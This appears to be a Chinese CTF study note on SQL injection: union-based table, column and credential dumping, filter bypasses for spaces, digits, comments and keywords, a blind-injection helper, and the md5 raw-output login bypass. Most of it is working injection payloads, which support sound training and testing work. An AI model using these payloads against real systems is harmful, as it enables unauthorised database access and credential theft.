 # 1.SQLmap 工具的使用



# 2.sql基本操作

1.判断是字符型还是数字型，使用2-1来判断

2.如果是字符型，判断闭合方式，' " ')  ")

3.判断查询列数，order by, group by

4.查询回显位置 -1' union select 1,2,3 --+

## 1.union注入

查询表名

```
2' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

查询列名

```
2' union select 1,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user2' --+
```

查询内容

```
2' union select 1,group_concat(id,username,password) from ctfshow_user2 --+
```

## 2.盲注

### sql内置函数

%在sql中统配N个字符

_:统配一个字符

like……%进行模糊匹配

regexp进行正则匹配

```
正则表达式匹配的字符类
.：匹配任意单个字符。
^：匹配字符串的开始。
$：匹配字符串的结束。
*：匹配零个或多个前面的元素。
+：匹配一个或多个前面的元素。
?：匹配零个或一个前面的元素。
[abc]：匹配字符集中的任意一个字符。
[^abc]：匹配除了字符集中的任意一个字符以外的字符。
[a-z]：匹配范围内的任意一个小写字母。
[0-9]：匹配一个数字字符。
\w：匹配一个字母数字字符（包括下划线）。
\s：匹配一个空白字符。
```



HAVING 子句允许指定条件来过滤将出现在最终结果中的分组结果。

WHERE 子句在所选列上设置条件，而 HAVING 子句则在由 GROUP BY 子句创建的分组上设置条件。

where被过滤时还可以使用right/left/inner join 



盲注时数字被过滤，在js中数字几就是几个true

```
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num
   
```



BENCHMARK函数 用来测试数据库中特定表达式的执行时间，

BENCHMARK(loop_count, expr)，其中loop_count是循环次数，expr是要循环的表达式。

# 2.过滤

## 1.对数字输入有过滤

<font color=red>select 1,2,3也可以是select 'a','b','c'</font>

查询表名

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(table_name),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J') from information_schema.tables where table_schema=database()--+
```

查询列名

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(column_name),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J') from information_schema.columns where table_name='ctfshow_user4'--+
```

查询内容

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(password),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','L'),'7','Q'),'8','H'),'9','I'),'0','J') from ctfshow_user4--+
```

## 2.union select 过滤

大小写绕过：Union Select

## 3.空格过滤

1.空格过滤使用括号绕过或者

%20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/

  

### **%09绕过**

```
1'%09union%09select%091,2,group_concat(table_name)%09from%09information_schema.tables%09where%09table_schema=database()%23
```

```
1'%09union%09select%091,2,group_concat(column_name)%09from%09information_schema.columns%09where%09table_name='ctfshow_user'%23
```

```
1'%09union%09select%091,2,group_concat(id,username,password)%09from%09ctfshow_user%23
```

### **%20绕过**

```
1'%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```
1'%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name='ctfshow_user'%23
```

```
1'%20union%20select%201,2,group_concat(id,username,password)%20from%20ctfshow_user%23
```

### /**/绕过

```
1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23
```

```
1'/**/union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='ctfshow_user'%23
```

```
1'/**/union/**/select/**/1,2,group_concat(id,username,password)/**/from/**/ctfshow_user%23
```

### %0c绕过

```
1'%0cunion%0cselect%0c1,2,group_concat(table_name)%0cfrom%0cinformation_schema.tables%0cwhere%0ctable_schema=database()%23
```

```
1'%0cunion%0cselect%0c1,2,group_concat(column_name)%0cfrom%0cinformation_schema.columns%0cwhere%0ctable_name='ctfshow_user'%23
```

```
1'%0cunion%0cselect%0c1,2,group_concat(id,username,password)%0cfrom%0cctfshow_user%23
```



## 4.--+过滤

使用#

或者%23

或者--%20(--加空格绕过，空格可以用%0c,%09……)

## 5.and和or

and的优先级高于or

```
select id,username,password from ctfshow_user where username != 'flag' and id = '0'or(id=26)and'1' limit 1;

select id,username,password from ctfshow_user where username != 'flag' and id = '0'or(id=26)and'1' limit 1;
```

## 6.md5($str,true)类型绕过

源码：

```php
<?php
        $flag="";
		$password=$_POST['password'];
		if(strlen($password)>10){
			die("password error");
		}
		$sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						 echo "登陆成功<br>";
						 echo $flag;
					 }
			}
    ?>


```

在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于password=‘xxx’ or true，所以返回值就是true。

想办法将内容转换为

```
SELECT * FROM admin WHERE pass=’ ‘or ’ 6’
```

 ffifdyop、129581926211651571912466741651878684928这两个字符串经过md5(password,true)之后，首位是数字

